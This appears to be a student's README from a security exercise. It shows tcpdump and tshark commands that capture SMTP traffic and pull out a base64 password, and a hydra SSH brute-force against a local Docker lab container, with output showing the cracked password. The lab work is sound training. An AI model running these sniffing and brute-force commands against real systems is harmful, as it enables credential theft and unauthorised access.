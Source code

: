 # Attack is the best defense

```bash
88                                88        88
88                                88        ""
88                                88
88,dPPYba,  ,adPPYYba,  ,adPPYba, 88   ,d8  88 8b,dPPYba,   ,adPPYb,d8
88P'    "8a ""     `Y8 a8"     "" 88 ,a8"   88 88P'   `"8a a8"    `Y88
88       88 ,adPPPPP88 8b         8888[     88 88       88 8b       88
88       88 88,    ,88 "8a,   ,aa 88`"Yba,  88 88       88 "8a,   ,d88
88       88 `"8bbdP"Y8  `"Ybbd8"' 88   `Y8a 88 88       88  `"YbbdP"Y8
                                                            aa,    ,88
                                                             "Y8bbdP"
```

# General

* Network basics
* Docker

# Environment

<!-- ubuntu -->
[![Ubuntu](https://img.shields.io/static/v1?label=&message=Ubuntu&color=E95420&logo=Ubuntu&logoColor=E95420&labelColor=2F333A)](https://ubuntu.com/) <!-- bash -->
[![Bash](https://img.shields.io/static/v1?label=&message=GNU%20Bash&color=4EAA25&logo=GNU%20Bash&logoColor=4EAA25&labelColor=2F333A)](https://www.gnu.org/software/bash/) <!-- vim -->
[![Vim](https://img.shields.io/static/v1?label=&message=Vim&color=019733&logo=Vim&logoColor=019733&labelColor=2F333A)](https://www.vim.org/) <!-- vs code -->
[![VS Code](https://img.shields.io/static/v1?label=&message=Visual%20Studio%20Code&color=5C2D91&logo=Visual%20Studio%20Code&logoColor=5C2D91&labelColor=2F333A)](https://code.visualstudio.com/)

* OS: ``ubuntu``, ``kali``
* Shell: ``bash``
* IDE: ``vim``, ``VS Code``
* ``ssh``
* ``tcpdump``
* ``hydra``
* ``telnet``
* ``docker``

> [tcpdump.org](https://www.tcpdump.org/)

## Sniffing unencrypted traffic

> Sniffing over ``ubuntu`` 20.04 LTS booting on Linux 4.26. generic
>
> Kali Linux: Kali GNU/Linux Rolling 2021.4
>
> sniffing unencrypted traffic and getting information out of it.
>
> export for wireshark
>
> convert from base64

> Terminal 1

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ sudo tcpdump -s 0 -i eth0 -w capture.pcap
```

> Terminal 2

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/h┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ ./user_authenticating_into_server
```

> After capturing the traffic

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ tshark -z follow,tcp,ascii,0 -P -r capture.pcap | grep -i pass
   43  22.802363 192.168.0.101 → 167.89.115.18 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
   45  22.988826 167.89.115.18 → 192.168.0.101 SMTP 118 S: 535 Authentication failed: Bad username / password
```

> Decode the password from base 64

## Brute attack force

Pull docker image

``docker pull sylvainkalache/264-1```

Run the image

```bash
ralex@ralex-nb:~$ docker run -p 2222:22 -d -ti sylvainkalache/264-1
f6e64ceecab2c913fac1a15f2f2f66669dac8fd6b8f9a563ae30810f19852719
```

```bash
ralex@ralex-nb:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED              STATUS              PORTS                                   NAMES
f6e64ceecab2   sylvainkalache/264-1   "/bin/sh -c 'service…"   About a minute ago   Up About a minute   0.0.0.0:2222->22/tcp, :::2222->22/tcp   quizzical_curran
ralex@ralex-nb:~$
```

brute force docker with hydra

``hydra -l sylvain -P passlist.txt ssh://127.0.0.1:2222``

```bash
ralex@ralex-nb:/media/ralex/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/hack$ hydra -l sylvain -P ignis-1M.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 23:59:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 999824 to do in 93:37h, 16 active
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-26 00:01:20
```

## Author

<!-- twitter -->
[![Twitter](https://img.shields.io/twitter/follow/ralex_uy?style=social)](https://twitter.com/ralex_uy) <!-- linkedin --> [![Linkedin](https://img.shields.io/badge/LinkedIn-+21K-blue?style=social&logo=linkedin)](https://www.linkedin.com/in/ronald-rivero/) <!-- github --> [![Github](https://img.shields.io/github/followers/ralexrivero?style=social)](https://github.com/ralexrivero/) <!-- vagrant --> [![Vagrant](https://img.shields.io/static/v1?label=&message=Vagrant%20Profile&color=1868F2&logo=vagrant&labelColor=2F333A)](https://app.vagrantup.com/ralexrivero) <!-- docker --> [![Docker](https://img.shields.io/static/v1?label=&message=Docker%20Profile&color=2496ED&logo=Docker&labelColor=2F333A)](https://hub.docker.com/u/ralexrivero)